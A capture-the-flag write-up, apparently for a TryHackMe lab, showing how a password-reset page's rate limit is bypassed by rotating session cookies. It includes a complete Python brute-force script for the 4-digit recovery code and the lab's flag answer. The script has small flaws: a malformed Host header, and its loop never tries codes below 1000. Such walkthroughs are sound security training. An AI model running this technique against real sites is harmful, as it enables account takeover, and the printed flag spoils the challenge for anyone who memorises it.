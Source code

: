 # Brute forcing 4-digit code

Using the email `tester@hammer.thm` we have found from the enumeration phase, we can explore the reset password feature.

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests


class BruteForce:

    s = requests.Session()

    N = 8
    MAX_CODE = 9999
    PORT = 1337
    EMAIL = 'tester@hammer.thm'

    def __init__(self, IP):
        self.IP = IP

        self.headers = {
            'Host': f'{IP}{self.PORT}',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
        }

        self.URL = f'http://{IP}:{self.PORT}'

    def retrieve_new_session(self):
        self.s = requests.Session()

        # session is updated automatically
        self.s.get(f'{self.URL}/index.php', headers=self.headers)

    def associate_email_with_new_session(self):
        data = {
            'email': self.EMAIL
        }

        self.s.post(f'{self.URL}/reset_password.php',
                    headers=self.headers, data=data)

    def start(self):
        try:
            # retrieve initial session
            self.retrieve_new_session()

            # enter email
            self.associate_email_with_new_session()

            iterations = self.MAX_CODE+1

            for i in range(1000, iterations):

                if i % self.N == 0 and i != 0:
                    print('[INFO] Retrieving new PHPSESSID')

                    # request for a new PHPSESSID
                    self.retrieve_new_session()

                    # enter email
                    self.associate_email_with_new_session()

                # zero pads to 4 digits
                code = f'{i:04d}'

                data = {
                    'recovery_code': code,
                    's': 200
                }

                print(f'[INFO] Trying code={code}')

                res = self.s.post(f'{self.URL}/reset_password.php',
                                  headers=self.headers, data=data)

                res_text = res.text
                res_status_code = res.status_code
                res_content_length = len(res.text)
                req_cookies = self.s.cookies.get_dict()

                print(f'status={res_status_code} content_length={
                    res_content_length} cookies={req_cookies}')

                # wrong code
                if 'Invalid or expired recovery code!' in res_text:
                    print("\033[91mWrong code!\033[0m")

                # valid code found
                else:
                    print("\033[92mSuccess!\033[0m")
                    print(f'code={code}')
                    exit()

        except KeyboardInterrupt:
            exit()


IP = input('[!] Enter the target IP address: ')

bruteforce = BruteForce(IP)
bruteforce.start()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`
